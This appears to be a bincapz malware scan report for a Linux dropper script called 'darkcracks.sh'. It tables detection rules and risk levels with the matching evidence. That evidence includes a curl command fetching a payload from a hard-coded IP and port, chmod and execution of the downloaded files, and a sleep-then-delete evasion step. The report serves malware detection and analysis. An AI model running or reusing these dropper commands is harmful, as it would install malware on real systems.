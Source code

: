 ## linux/2024.Darkcracks/darkcracks.sh [🚨 CRITICAL]

|   RISK   |                                                                   KEY                                                                   |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                         EVIDENCE                                                                                                                                                                                                                                                                                                                                         |
|----------|-----------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [combo/dropper/shell](https://github.com/chainguard-dev/bincapz/blob/main/rules/combo/dropper/shell.yara#curl_chmod_relative_run_tiny)  | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod](https://github.com/search?q=chmod&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/run_sleep_delete](https://github.com/chainguard-dev/bincapz/blob/main/rules/evasion/run_sleep_delete.yara#run_sleep_delete)    | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                     |
| CRITICAL | [net/fetch](https://github.com/chainguard-dev/bincapz/blob/main/rules/net/fetch.yara#curl_download_ip)                                  | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| HIGH     | [process/chdir/unusual](https://github.com/chainguard-dev/bincapz/blob/main/rules/process/chdir-unusual.yara#unusual_cd_val)            | changes to an unusual system directory                         | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| HIGH     | [ref/ip_port](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/ip_port.yara#hardcoded_ip_port)                             | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| HIGH     | [ref/site/http/ip](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/site/http-ip.yara#http_hardcoded_ip)                   | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/bincapz/blob/main/rules/fs/file-make_executable.yara#chmod_executable_plus) | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/bincapz/blob/main/rules/fs/permission-modify.yara#chmod)                       | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/ip](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/ip.yara#hardcoded_ip)                                            | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/relative](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/relative.yara#relative_path_val)                 | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/root](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/root.yara#root_path_val)                             | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [shell/exec](https://github.com/chainguard-dev/bincapz/blob/main/rules/shell/exec.yara#calls_shell)                                     | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [process/chdir](https://github.com/chainguard-dev/bincapz/blob/main/rules/process/chdir.yara#chdir_shell)                               | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [ref/path/var](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/var.yara#var_path)                                    | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| LOW      | [ref/site/url](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/site/url.yara#http_url)                                    | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |

